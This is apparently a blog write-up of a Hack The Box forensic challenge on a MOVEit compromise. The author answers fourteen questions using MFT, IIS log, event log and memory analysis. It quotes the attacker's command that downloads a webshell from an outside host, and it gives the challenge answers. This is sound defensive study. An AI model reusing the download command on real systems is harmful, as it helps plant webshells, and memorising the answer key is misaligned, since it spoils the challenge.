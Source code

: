 ```yaml
---
layout: default
title: I-like-to
permalink: https:/glebius01.github.io/i-like-to
---
```


### Summary: 

*I-like-to* is one of the first Sherlocks HTB has published. Despite being ranked as easy, it still provides a good learning value for a beginner. While working on this challenge, I have acquainted with MOVEit vulnerability, analysed KAPE artifacts, including MFT file, correlated data with raw hex, and answered relevant questions regarding the exploitation of the vulnerability.

### Challenge scenario: 

"We have unfortunately been hiding under a rock and do not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details, so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artefacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here..."

### Walkthrough:

1. *Name of the ASPX webshell uploaded by the attacker?*
	I parcelled MFT using MFTCmd and then opened it with TimeLine Explorer. The first question is to find ASPX web shell, I filtered files' extension to .aspx and the first file in the output had missing 0x30 ($Filename information) timestamp which indicates that it was likely uploaded from a different host. 
	
	Answer: move.aspx

2. *What was the attacker's IP address?*
	To find the attacker's IP address I had to find Microsoft Internet Information Service, open it with a text editor and find the uploaded file. Also, there are a lot of signs of network enumeration conducted by the threat actor. 
	
	It's worth noting that I've tried to find the IP address initially by multiplying the file's entry number by 1024 and converting it to hex, then looking for this offset number in the MFT hex dump (using HxD). Also, by running `Get-Item (file path) -Stream *` and `Get-Content`. Yet this method is more suitable for analysing Zone.Identifier data. 
	
	Answer: 10.255.254.3

3. *What user agent was used to perform the initial attack?*
	I continued investigating IIS logs and indicators of compromise for the exploit. I found one of them (machine2.aspx) in the logs and User Agent in the lines below. 
	
	Answer: Ruby

4. *When was the ASPX webshell uploaded by the attacker?*
	Using Timeline Explorer, I returned to the first file I had found, looked at its entry number and investigated its timestamps, then used MFTECmd (particular attention to $FILE_NAME or 0x30 information) to identify the time when the script was uploaded.
	
	Answer: 12/07/2023 11:24:30
	
	`.\MFTECmd -f 'C:\Users\glebas\Desktop\$MFT' --de 1293` ![Pasted image 20250210105019](https://github.com/user-attachments/assets/1c60bb9f-8981-43d5-b49f-947a0b88fa3c)

5. *The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?*
	Filtered MFT entries to display the same day when 'move.aspx' was uploaded. The next entry is another malicious file 'moveit.asp' and it has file size specified in the entry.
	
	Answer: 1362

6. *Which tool did the attacker use to initially enumerate the vulnerable server?*
	Numerous attempts of port enumeration using nmap can be seen in IIS and DMZ_FTP log files
	
	Answer: nmap

7. *We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)*
	Using EvtxECmd I converted directory with Windows event logs (included logs IDs related to password change 4723, 4724... etc) into a CSV file, opened it with Timeline Explorer and found there service account password attempt with ID 4724.
	
	Answer: 12/07/2023 11:09:27

8. *Which protocol did the attacker utilize to remote into the compromised machine?*
	To identify internet protocol the adversary used to connect, I had to re-process evtx logs once again including all the events this time (with the thought of the future usage). Then, I filtered events 4624 that identify successful connections and using logon type 10 is typically mark of RDP connection.
	
	Answer: RDP

9. *Please confirm the date and time the attacker remotely accessed the compromised machine*
	Timestamp can be found in previous question.
	
	Answer: 12/07/2023 11:11:18

10. *What was the useragent that the attacker used to access the webshell?*
	The user agent can be found in IIS logs, in particular near malicious files with GET or POST requests.
	
	Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0

11. *What is the inst ID of the attacker?*
    I installed MySQL server and workbench to analyse moveit.sql file and found the ID among the entries. You shall look for attacker's nickname.
    
    Answer: 1234

12. What command was run by the attacker to retrieve the webshell?
	
	Answer: `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`

13. *What was the string within the title header of the webshell deployed by the TA?*
	To find a header I used command `strings "C:\Users\glebas\Desktop\I-like-to-27a787c5.vmem" | Select-String "move.aspx" -Context 20, 20` -- it allows to see 20 lines above and below from the target line (move.aspx) in this case.
	
	Answer: awen asp.net webshell

14. *What did the TA change the our moveitsvc account password to?*
	I found new password by conducting strings analysis of vmem file and with the search for "net user 'moveitsvc" because password follows it
	
	Answer: 5trongP4ssw0rd


